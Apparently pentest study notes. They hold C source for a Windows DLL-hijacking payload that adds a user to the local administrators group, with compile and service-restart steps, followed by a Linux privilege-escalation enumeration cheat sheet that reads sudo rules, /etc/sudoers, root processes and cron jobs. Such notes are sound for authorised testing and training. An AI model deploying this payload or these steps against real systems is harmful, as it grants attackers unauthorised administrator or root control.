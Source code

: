 ```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
    system("cmd. exe /k net localgroup administrators user /add");
    ExitProcess(0);
    }
return TRUE;
}
```

- Exploitation: restart dll service using `sc stop dllsvc & sc start dllsvc`
- Check if successful using: `net user user` -> shows Local Group Memberships as Administrators

# Linux Priv Esc
- https://workbook.securityboat.net/resources/network-pentest-1/network-pentest/priv-escalation
- https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics?tab=readme-ov-file#linux-privilege-escalation-basics
## Enumeration
### User and system details
```bash
#Escalation Path Sudo - see what commands can be run by current user (as root) that do not require password
sudo -l

#find out commands that usually require the sudo command can be run without sudo
cat /etc/sudoers

#if any user that belongs to the group wheel can execute anything as sudo, to become root
sudo su

#check linux system details
cat /etc/*release*
uname -a
rpm -q kernel
dmesg | grep -i linux

#writable folders in linux (doesnt mean executable)
/tmp
/dev/shm

#services currently run by root
ps aux|grep root
ps -ef|grep root

#installed app
ls -lah /usr/bin/
ls -lah /sbin/
dpkg -l
rpm -qa
ls -lah /var/cache/apt/archives
ls -lah /var/cache/yum/

#scheduled task
crontab -l
ls -la /etc/cron*
ls -lah /var/spool/cron
ls -la /etc/|grep cron
```